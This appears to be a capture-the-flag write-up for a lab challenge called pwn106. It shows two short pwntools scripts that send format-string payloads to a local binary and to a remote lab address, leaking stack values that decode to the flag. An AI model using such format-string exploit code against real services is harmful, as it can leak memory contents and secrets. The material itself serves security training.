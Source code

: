 ## Exploit local
Link to calling convetion ==>

Let's try to leak some data.
```python
from pwn import *

context.binary = binary = './pwn106user.pwn106-user'

#payload = "%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX"
payload = "%6$lX.%7$lX.%8$lX.%9$lX.%a$lX"
conn = process('./pwn106user.pwn106-user')
conn.recv()
conn.sendline(payload)
result= conn.recvall()
print(result)

```

![picture 42](/assets/images/103becf7a25f30f4e9f0ccbdb096b126691ec7562718927d8dd9b244ffa8c599.png)  

Relevant data starts at 6th position until 10th. Bytes needs to be compared to actually match the ascii representations.

```python
from pwn import *

context.binary = binary = './pwn106user.pwn106-user'
conn = remote('10.10.93.168',9006)
#payload = "%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX"
payload = "%6$lX.%7$lX.%8$lX.%9$lX.%10$lX.%11$lX"

conn.recv()
conn.sendline(payload)
result= conn.recvall()
print(result)
```
Using script we get the flag. Decoding was done using Cyberchef.
